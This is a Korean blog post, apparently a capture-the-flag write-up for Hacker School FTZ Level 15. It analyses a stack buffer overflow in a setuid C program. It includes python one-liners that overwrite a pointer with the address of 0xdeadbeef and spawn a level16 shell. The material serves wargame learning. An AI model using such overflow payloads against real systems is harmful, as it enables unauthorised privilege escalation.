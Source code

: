 ```yaml
---
layout: post
title: "Hacker School FTZ - Level 15"
description: "Do you know the pointer?"
comments: true
categories: [FTZ]
tags: [FTZ]
---
```


<img data-action="zoom" src='{{ "assets/ftz/level15/1.jpg" | relative_url }}' alt='relative'>  

## 1) level15/ guess what입력해 로그인  
 
``` c
#include <stdio.h>

main()
{ int crap;
  int *check;
  char buf[20];
  fgets(buf,45,stdin);
  if (*check==0xdeadbeef)
   {
     setreuid(3096,3096);
     system("/bin/sh");
   }
}
```

<img data-action="zoom" src='{{ "assets/ftz/level15/2.png" | relative_url }}' alt='relative'>  

이제 힌트로 준 코드만 봐도 스택이 어떻게 구성되어 있을지 감이 옵니다.  
14번과 거의 동일하지만 15번에서는 check 변수가 포인터로 되어 있습니다.  

## 2) 그래도 스택 프레임 구조는 살펴보자  

<img data-action="zoom" src='{{ "assets/ftz/level15/3.png" | relative_url }}' alt='relative'>  

<img data-action="zoom" src='{{ "assets/ftz/level15/4.png" | relative_url }}' alt='relative'>  

14번 문제에서는 &\[ebp-16\]에 0xdeadbeef가 저장되어 있어야 했지만,  
15번 문제에서는 &\[ebp-16\]에 0xdeadbeef가 저장되어 있는 주소가 저장되어 있어야 한다.  

## 3) 코드에 0xdeadbeef가 상수로 저장되어 있네?  

이 문제를 풀기 위해 입력값이 0xdeadbeef를 입력할 필요가 없습니다.  
왜냐하면 코드에 이미 쓰여있기 때문입니다.  

<img data-action="zoom" src='{{ "assets/ftz/level15/5.png" | relative_url }}' alt='relative'>  

0xdeadbeef가 적혀있는 코드 주변을 살펴보니 0x080483e4 주소에 0xdeadbeef가 저장되어 있습니다.  

이 주소를 가지고 ./atm 프로그램에서 bof를 일으켜보겠습니다.  

``` bash
(python -c 'print "\x90"*40+"\xe4\x83\x04\x08"'; cat) | ./attackme
```

<img data-action="zoom" src='{{ "assets/ftz/level15/6.png" | relative_url }}' alt='relative'>  

shell이 실행되는 것을 확인할 수 있습니다.  

이 방법을 attackme 프로그램에도 적용해보겠습니다.  

## 4) attackme 프로그램에서 0xdeadbeef이 저장된 주소 찾아 bof 일으키고 level16 권한으로 shell 따기  

<img data-action="zoom" src='{{ "assets/ftz/level15/7.png" | relative_url }}' alt='relative'>  

attackme 프로그램도 gdb로 분석해 0xdeadbeef가 저장된 주소를 찾았습니다.  

``` bash
(python -c 'print "\x90"*40+"\xb2\x84\x04\x08"'; cat) | ./attackme
```

<img data-action="zoom" src='{{ "assets/ftz/level15/8.png" | relative_url }}' alt='relative'>  

attackme 프로그램을 분석하여 찾은 0xdeadbeef가 저장된 주소를  
입력 문자열에 넣어 실행한 결과 level16 권한으로 shell을 실행해 level16의 비밀번호를 획득할 수 있었습니다.    